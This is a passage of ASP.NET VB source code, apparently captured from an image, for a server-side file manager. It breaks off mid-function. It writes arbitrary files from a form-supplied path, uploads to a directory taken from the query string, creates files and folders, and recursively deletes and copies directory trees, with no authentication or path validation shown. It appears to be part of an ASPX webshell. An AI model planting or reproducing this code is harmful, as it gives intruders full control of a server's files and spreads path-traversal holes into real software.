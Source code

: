 sub Editor(Src As Object, E As EventArgs)
	dim mywrite as new streamwriter(filepath.text,false,encoding.default)
	mywrite.write(content.text)
	mywrite.close
	response.Write("<script>alert('Edit|Creat " & replace(filepath.text,"\","\\") & " Success!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(Getparentdir(filepath.text)) &"'</sc" & "ript>")
end sub
Sub UpLoad(Src As Object, E As EventArgs)
	dim filename,loadpath as string
	filename=path.getfilename(UpFile.value)
	loadpath=request.QueryString("src") & filename
	if  file.exists(loadpath)=true then 
		response.Write("<script>alert('File " & replace(loadpath,"\","\\") & " have existed , upload fail!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(request.QueryString("src")) &"'</sc" & "ript>")
		response.End()
	end if
	UpFile.postedfile.saveas(loadpath)
	response.Write("<script>alert('File " & filename & " upload success!\nFile info:\n\nClient Path:" & replace(UpFile.value,"\","\\") & "\nFile Size:" & UpFile.postedfile.contentlength & " bytes\nSave Path:" & replace(loadpath,"\","\\") & "\n');")
	response.Write("location.href='" & request.ServerVariables("URL") & "?action=goto&src=" & server.UrlEncode(request.QueryString("src")) & "'</sc" & "ript>")
End Sub
Sub NewFD(Src As Object, E As EventArgs)
	url=request.form("src")
	if NewFile.Checked = True then
		dim mywrite as new streamwriter(url & NewName.Text,false,encoding.default)
		mywrite.close
		response.Redirect(request.ServerVariables("URL") & "?action=edit&src=" & server.UrlEncode(url & NewName.Text))
	else
		directory.createdirectory(url & NewName.Text)
		response.Write("<script>alert('Creat directory " & replace(url & NewName.Text ,"\","\\") & " Success!');location.href='"& request.ServerVariables("URL") & "?action=goto&src="& server.UrlEncode(url) &"'</sc" & "ript>")
	end if
End Sub
Sub del(a)
	if right(a,1)="\" then
		dim xdir as directoryinfo
		dim mydir as new DirectoryInfo(a)
		dim xfile as fileinfo
		for each xfile in mydir.getfiles()
			file.delete(a & xfile.name)
		next
		for each xdir in mydir.getdirectories()
			call del(a & xdir.name & "\")
		next
		directory.delete(a)
	else
		file.delete(a)
	end if
End Sub
Sub copydir(a,b)
	dim xdir as directoryinfo
	dim mydir as new DirectoryInfo(a)
	dim xfile as fileinfo
	for each xfile in mydir.getfiles()
		file.copy(a & "\" & xfile.name,b & xfile.name)
	next
	for each xdir in mydir.getdirectories()
		directory.createdirectory(b & path.getfilename(a & xdir.name))